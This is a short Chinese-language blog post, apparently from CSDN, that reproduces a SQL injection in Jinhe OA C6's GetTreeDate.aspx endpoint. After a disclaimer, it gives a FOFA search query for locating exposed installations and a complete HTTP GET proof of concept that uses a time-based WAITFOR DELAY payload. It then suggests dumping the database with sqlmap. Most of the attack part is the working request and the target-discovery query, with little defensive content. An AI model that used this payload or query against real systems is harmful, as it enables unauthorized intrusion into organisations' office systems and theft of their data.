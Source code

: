 # 原创
：  漏洞复现--金和OASQL注入

# 漏洞复现--金和OASQL注入

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

金和OA协同办公管理系统C6软件（简称金和OA），本着简单、适用、高效的原则，贴合企事业单位的实际需求，实行通用化、标准化、智能化、人性化的产品设计，充分体现企事业单位规范管理、提高办公效率的核心思想，为用户提供一整套标准的办公自动化解决方案，以帮助企事业单位迅速建立便捷规范的办公环境。该产品GetTreeDate.aspx存在SQL注入漏洞

### 二：漏洞影响版本

金和OA

### 三：网络空间测绘查询

fofa:<br/> `app="金和网络-金和OA"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/f0fa7c0ea246924f7142befe4e89cd92.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/51080d604810a57a4969704610beaf4e.jpeg"/><br/> POC:<br/> `GET /C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1;WAITFOR+DELAY+%270:0:5%27+--%20and%201=1 HTTP/1.1 Host: IP:port User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3 Accept-Encoding: gzip, deflate Cookie: ASP.NET_SessionId=4nichsprxl5ruhtbk5lywfdb DNT: 1 Connection: close Upgrade-Insecure-Requests: 1 `<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a9b38bb3df74d90a565898413148193c.jpeg"/><br/> 存在注入

### 五：漏洞利用

sqlmap直接梭哈<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/79d0907c86494ed56f1aa67b5b813b1f.jpeg"/>
